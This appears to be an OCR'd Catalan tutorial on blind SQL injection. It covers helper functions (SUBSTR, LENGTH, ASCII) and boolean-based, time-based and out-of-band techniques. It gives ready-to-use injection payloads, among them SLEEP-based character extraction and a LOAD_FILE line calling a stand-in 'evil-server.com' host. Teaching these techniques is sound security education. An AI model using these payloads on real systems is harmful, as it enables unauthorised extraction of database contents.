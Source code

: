 # 🔢 **Funcions útils per a Blind SQLi**  

| 🛠️ **Funció**                        | 📖 **Explicació**                              |
|--------------------------------------|----------------------------------------------|
| 🔹 **`SUBSTR(string, start, length)`** | Retorna una part de la cadena (subcadena).   |
| 🔹 **`LENGTH(string)`**               | Retorna la mida de la cadena.                |
| 🔹 **`ASCII(char)`**                   | Retorna el valor ASCII d'un caràcter.        |

## 🔎 **Com aquestes funcions ajuden en un Blind SQLi?**  
✅ **`LENGTH()`** ens permet saber **quants caràcters té una dada**.  
✅ **`SUBSTR()`** ens ajuda a **obtenir lletres concretes** dins la dada.  
✅ **`ASCII()`** converteix una lletra a un número, facilitant la seva extracció **bit a bit**.  

---

# 🔍 **Què és el Blind SQL Injection?**  
Blind SQL Injection és un atac on:  

✅ **Hi ha una vulnerabilitat SQL Injection**  
❌ **L'atacant NO veu la resposta directament**  
🕵️‍♂️ **Ha d'inferir informació** basant-se en canvis de comportament de l’aplicació.  

> 💡 **Exemple:**  
> - ✅ Una consulta **vàlida** pot carregar una pàgina normal.  
> - ❌ Una consulta **invàlida** pot provocar un error o un canvi en el temps de resposta.  

---

# 📌 **Tipus de Blind SQLi**  

## 1️⃣ **Boolean-Based Blind SQLi**  
👉 L’aplicació dona **respostes diferents** segons si la consulta és **certa o falsa**.  

### 🔎 **Exemple:**
```sql
' OR 1=1 --  ✅ (Pàgina normal)
' OR 1=2 --  ❌ (Error o canvi de comportament)
```

💡 **Tècnica per extreure dades**  
Podem trobar el nom d’usuari **lletra per lletra** amb `SUBSTR()`:  

```sql
' AND SUBSTR((SELECT user()),1,1)='r' -- ✅ / ❌
```

📌 **Com funciona?**  
- ✅ Si la pàgina respon **com sempre**, la condició és certa.  
- ❌ Si la pàgina respon **diferent**, la condició és falsa.  

➡️ **Es poden provar totes les lletres fins a reconstruir el text complet.**  

---

## 2️⃣ **Time-Based Blind SQLi**  
⏳ **Consisteix a fer que la base de dades trigui més si la condició és certa.**  
Això permet esbrinar informació **sense veure la resposta**.  

### 🔎 **Exemple en MySQL:**  
```sql
' AND IF(1=1, SLEEP(5), 0) -- ⏳ (Triga 5 segons) 
' AND IF(1=2, SLEEP(5), 0) -- ⚡ (Resposta immediata)
```

📌 **Com funciona?**  
- `IF(1=1, SLEEP(5), 0)` → Si la condició és **certa**, la base de dades **espera 5 segons**.  
- Si **no hi ha retard** → La condició és **falsa**.  

💡 **Tècnica per extreure dades**  
Podem esbrinar el nom d’usuari **lletra per lletra** combinant `SUBSTR()`, `ASCII()` i `SLEEP()`:  

```sql
' AND IF(ASCII(SUBSTR((SELECT user()),1,1))=114, SLEEP(5), 0) -- 
```

📌 **Explicació:**  
➡️ `ASCII(‘r’) = 114`  
➡️ **Provant números fins que el temps de resposta augmenti, descobrim cada lletra.**  

---

## 3️⃣ **Out-of-Band SQLi**  
📡 **Explotació indirecta mitjançant canals externs (DNS, HTTP, etc.).**  

🔹 Es fa servir quan **Boolean-Based i Time-Based no funcionen**.  
🔹 Requereix que la base de dades pugui fer **peticions externes**.  

### 🔎 **Exemple amb MySQL:**  
```sql
' UNION SELECT LOAD_FILE('\\evil-server.com\file') -- 
```

📌 **Com funciona?**  
👉 Això envia dades a un servidor **controlat per l'atacant**.  

---

